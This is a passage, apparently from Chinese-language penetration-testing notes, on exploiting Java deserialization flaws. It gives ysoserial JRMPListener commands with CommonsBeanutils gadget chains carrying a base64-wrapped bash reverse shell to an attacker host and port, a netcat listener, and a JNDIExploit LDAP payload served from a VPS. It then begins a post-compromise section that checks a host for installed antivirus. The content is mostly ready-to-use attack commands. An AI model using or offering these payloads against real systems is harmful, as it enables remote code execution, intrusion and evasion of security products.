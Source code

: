 ```php
Linux：
java -cp ysoserial-0.0.8-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 88 CommonsBeanutils1 "bash -c {echo,字段}|{base64,-d}|{bash,-i}"  
字段=bash -i >& /dev/tcp/x.x.x.x/8888 0>&1 base64后的值  
nc -lvp 端口

Windows：
java -jar JNDIExploit-1.0-SNAPSHOT.jar -i VPS地址  
java -cp ysoserial-0.0.6-SNAPSHOT-1.8.3.jar ysoserial.exploit.JRMPListener 88 CommonsBeanutils2 "ldap://VPS 地址:1389/Basic/Command/Base64/d2hvYW1p"  
d2hvYW1p为命令的base64，这里是执行命令whoami
```

![image_wvD-c4KvV-.png](assets/1698900866-9ff58dac3c05944aa595013491fba0b5.png)

# 0x02 内网渗透

## 杀软识别

拿到一台机器后，一般先看一下安装了什么安全防护产品

`tasklist /svc`

![-rr-ew4zvx_bjnBTV1EhH.png](assets/1698900866-5e0cd900eb83e8a237ff3f9db542e67c.png)
